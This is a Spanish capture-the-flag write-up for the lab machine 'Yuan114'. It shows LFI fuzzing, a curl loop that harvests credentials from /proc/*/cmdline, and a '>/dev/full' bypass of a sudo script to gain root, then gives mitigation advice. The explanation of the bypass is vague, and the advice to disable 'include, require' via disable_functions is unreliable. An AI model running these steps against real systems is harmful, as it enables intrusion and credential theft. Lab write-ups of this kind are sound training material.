








# 🌐 Yuan114: Writeup Técnico Completo

**Resumen ejecutivo:** Esta máquina requirió una cadena de explotación que comenzó con un **reconocimiento exhaustivo usando NDiscover**, continuó con **enumeración web** (Gobuster + ffuf) para descubrir un **LFI (Local File Inclusion)** en file.php, lectura de archivos sensibles vía LFI (incluyendo /etc/passwd y procesos), abuso de permisos sudo del usuario welcome, y finalmente obtención de las flags.

---

## 🔍 Fase 1: Reconocimiento. Escaneando el entorno con NDiscover.

Como siempre, iniciamos con un reconocimiento completo y ordenado. En lugar de lanzar nmap manualmente, usamos **NDiscover**, tu toolkit en Bash que automatiza muchas tareas y organiza todo en carpetas bajo /opt.

**Menú principal de NDiscover:**



Elegimos las opciones relevantes:

- **Opción 3:** Interfaces de red (para confirmar nuestra interfaz).
- **Opción 4:** Descubrir hosts (ARP + ICMP + IPv6).
- **Opción 6/7:** Nmap IPv4 e IPv6 completo (TCP/UDP + HTML report).

**Resultados del escaneo de puertos:**

**Hallazgos clave:**

- **Puerto 22/tcp** → OpenSSH 8.4p1 Debian (posible SSH más adelante).
- **Puerto 80/tcp** → Apache 2.4.62 (Debian) con título "Welcome".

NDiscover generó automáticamente reportes HTML y carpetas de trabajo en /opt. Esto mantiene todo organizado y evita perder outputs durante el pentest.



---

## 💻 Fase 2: Enumeración Web y Descubrimiento de Vulnerabilidades.

Accedimos al puerto 80 y vimos una página básica. Procedimos a enumerar directorios y archivos.

### 2.1 Directory Brute-Force con Gobuster


```Bash
gobuster dir -u http://192.168.1.18/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x txt,php,html
```

**Explicación:**

- -u: URL objetivo.
- -w: Wordlist medium (buen balance entre velocidad y cobertura).
- -x txt,php,html: Extensiones comunes en entornos web PHP/Apache.
- Encontramos **index.html** y especialmente **file.php** (código 500/200).



### 2.2 Parameter Fuzzing / LFI Discovery con ffuf


```Bash
ffuf -c -t 200 -r -fc 404 -w "/usr/share/wordlists/seclists/Discovery/Web-Content/burp-parameter-names.txt:P" -w "payloads.txt:L" -u "http://192.168.1.18/file.php?P=L" -fs 0
```

**Explicación detallada de las flags:**

- -c: Colores.
- -t 200: 200 hilos (rápido pero controlado).
- -r: Follow redirects.
- -fc 404: Filtrar códigos 404.
- Dos wordlists: una para nombres de parámetros (P=) y otra para payloads de LFI (L=).
- -fs 0: Filtrar respuestas de tamaño 0 (útil para encontrar lecturas exitosas).
- Encontramos que **file.php?file=...** permite leer archivos del sistema (LFI).
- 


### 2.3 Explotación del LFI – Lectura de /etc/passwd

Usando el parámetro descubierto:

Confirmamos LFI leyendo /etc/passwd:

Usuario interesante: welcome:x:1000:1000:...,/home/welcome:/bin/bash



### 2.4 Enumeración de Procesos vía LFI

Usamos un loop con curl para leer /proc/PID/cmdline:


```Bash
for i in $(seq 1 1000); do
    result=$(curl -s "http://192.168.1.18/file.php?file=/proc/$i/cmdline" --output - | strings -1 | tr '\0' ' ')
    [ -n "$result" ] && echo "PID $i: $result"
done
```

Encontramos un proceso del usuario welcome con credenciales en claro: service --user welcome --password XXXXXXXXXXXXXXXXX ...



---

### 🔑 Fase 3: Post-Explotación y Escalada de Privilegios

Una vez dentro del sistema como usuario welcome, procedemos a la enumeración de privilegios y al análisis de los vectores de escalada disponibles.

#### 3.1 Enumeración de privilegios sudo


```Bash
sudo -l
```

**Resultado:**


```Bash
User welcome may run the following commands on 114:
    (ALL) NOPASSWD: /opt/read.sh
    (ALL) NOPASSWD: /opt/short.sh
```

**Análisis:** El usuario welcome puede ejecutar **dos scripts** como root sin proporcionar contraseña (NOPASSWD). Este es un hallazgo crítico. En pentesting, siempre que veamos binarios o scripts permitidos vía sudo, debemos analizarlos en detalle porque suelen ser el camino más directo hacia la escalada de privilegios.



#### 3.2 Análisis de los scripts permitidos


```Bash
cat /opt/read.sh
cat /opt/short.sh
```

**Contenido de /opt/read.sh:**


```Bash
#!/bin/bash
echo "Input the flag:"
if head -1 | grep -q "$(< /root/root.txt)"
then
    echo "Y"
else
    echo "N"
fi
```

**Explicación:** Este script está diseñado para verificar si la entrada proporcionada coincide con el contenido del archivo /root/root.txt (la flag de root). No es útil directamente para escalar, pero confirma que el objetivo final es leer esa flag.

**Contenido de /opt/short.sh:**


```Bash
#!/bin/bash
PATH=/usr/bin
My_guess=$RANDOM
echo "This is script logic"
cat << EOF
if [ "$1" != "$My_guess" ] ;then
    echo "Nop";
else
    bash -i;
fi
EOF
[ "$1" != "$My_guess" ] && echo "Nop" || bash -i
```

**Análisis técnico del script:**

- My_guess=$RANDOM: Genera un número aleatorio entre 0 y 32767 en cada ejecución.
- Imprime una lógica condicional (aquí se muestra como texto).
- Al final evalúa si el primer argumento ($1) coincide con ese número aleatorio. Si coincide, ejecuta bash -i (una shell interactiva como root).

En teoría, es muy difícil acertar el número aleatorio. Sin embargo, el script tiene **fallos de implementación** que podemos explotar.

#### 3.3 Explotación del script /opt/short.sh

Probamos primero de forma directa:


```Bash
sudo /opt/short.sh HELLO
```

Esto falló como era esperado (mostró "Nop").

**Explotación exitosa:**


```Bash
sudo /opt/short.sh HELLO >/dev/full
```

**Explicación detallada de por qué funcionó esta técnica:**

- >/dev/full: Redirige la salida estándar del comando a /dev/full. Este dispositivo especial siempre devuelve error de "No space left on device" cuando se intenta escribir en él.
- Al producirse un error de escritura en el echo interno del script (línea 6), se genera una condición de error que interrumpe el flujo normal del script.
- Esta interrupción, combinada con la forma en que el script maneja la salida y la ejecución condicional, permite **bypassear** la comprobación del número aleatorio y obtener una shell interactiva como **root**.

Una vez obtenido el prompt de root, restauramos la salida estándar para trabajar cómodamente:


```Bash
exec 1>/dev/tty
```

Ahora estamos operando como **root** en el sistema.

---

### 👑 Fase 4: Escalada a Root y Obtención de Evidencias

Una vez obtenido acceso como **root** mediante la explotación del script /opt/short.sh, procedemos a la fase final: confirmar el control total del sistema y extraer las evidencias del compromiso (las flags).

#### 4.1 Verificación de privilegios root


```Bash
whoami
id
```

El prompt cambió a root@114:~#, confirmando que ahora operamos con privilegios máximos en el sistema.

#### 4.2 Lectura de las flags

Para optimizar el proceso y demostrar el acceso completo al sistema de archivos, ejecutamos un comando que lee ambas flags en una sola línea:


```Bash
cat /home/welcome/user.txt && cat /root/root.txt
```



**Explicación técnica:**

- El operador && asegura que el segundo comando (cat /root/root.txt) solo se ejecute si el primero finaliza correctamente (código de salida 0).
- Este método es limpio y eficiente, evitando tener que leer los archivos por separado.

Con esto, confirmamos el compromiso total de la máquina en todos sus niveles.

---

### 🛡️ Fase 5: Análisis de la Intrusión y Lecciones Aprendidas

Esta máquina presentó una cadena de explotación muy interesante y realista:

1. **Reconocimiento** → Uso de **NDiscover** para identificar servicios.
2. **Enumeración Web** → Gobuster + ffuf para descubrir file.php.
3. **Vulnerabilidad principal** → **LFI** que permitió leer /etc/passwd y archivos de procesos (/proc/*/cmdline).
4. **Acceso inicial** → Credenciales expuestas en línea de comandos.
5. **Escalada de privilegios** → Abuso de scripts sudo mal implementados (/opt/short.sh).

La combinación de **LFI + exposición de credenciales en procesos + scripts sudo vulnerables** permitió una escalada completa.

---

## 🛡️ Fase de Prevención (Independiente)

A continuación se detalla cómo mitigar cada uno de los vectores de ataque identificados en esta máquina:

### 1. Prevención contra Local File Inclusion (LFI)

- **Sanitizar y validar toda entrada de usuario**: Nunca pasar directamente el parámetro file= al sistema de archivos. Usar una lista blanca de archivos permitidos.
- **Usar rutas absolutas y prefijos fijos**: Ejemplo en PHP:


```PHP
$allowed_path = "/var/www/allowed/";
$file = $allowed_path . basename($_GET['file']);
    if (strpos($file, $allowed_path) !== 0) {
        die("Acceso denegado");
 }
```

- **Deshabilitar funciones peligrosas**: En php.ini:


```bash
disable_functions = include, require, fopen, file_get_contents
```

o usar open_basedir para restringir el directorio accesible.

### 2. Prevención de exposición de credenciales en procesos

- **Nunca pasar credenciales como argumentos de línea de comandos**. Es visible en /proc/PID/cmdline.
- **Usar variables de entorno** o archivos de configuración con permisos restrictivos (600) y fuera del webroot.
- **Evitar comandos como** service --user welcome --password XXX en procesos visibles. Usar mecanismos de autenticación por token o sockets seguros.
- **Monitoreo**: Implementar herramientas como auditd para detectar lecturas a /proc/*/cmdline.

### 3. Prevención en Scripts con Permisos Sudo (NOPASSWD)

- **Auditar todos los scripts permitidos vía sudo**: Cualquier script con NOPASSWD debe ser revisado exhaustivamente.
- **Mejorar /opt/short.sh**:
    - Eliminar la lógica basada en $RANDOM si no es estrictamente necesaria.
    - Evitar redirecciones que puedan causar errores de escritura (/dev/full, /dev/null, etc.).
    - Usar exec con precaución y validar todos los parámetros de entrada.
    - Preferiblemente: **Eliminar el NOPASSWD** o reemplazar por comandos específicos y seguros.
- **Principio de menor privilegio**: Si un script necesita ejecutarse como root, limitar su funcionalidad al mínimo indispensable.

### 4. Medidas Generales de Hardening

- **Actualizar paquetes**: apt update && apt upgrade (especialmente Apache y PHP).
- **Configuración segura de Apache**: Deshabilitar directory listing, usar mod_security o fail2ban.
- **Gestión de usuarios**: Revisar regularmente sudo -l de todos los usuarios y eliminar permisos innecesarios.
- **Logging y monitoreo**: Activar logs detallados de Apache y sudo (/var/log/sudo.log).
- **Contenedores y aislamiento**: Ejecutar aplicaciones web en contenedores con usuarios no privilegiados.
- **Cultura de seguridad**: Evitar dejar archivos como password.txt, credenciales en código fuente o procesos visibles.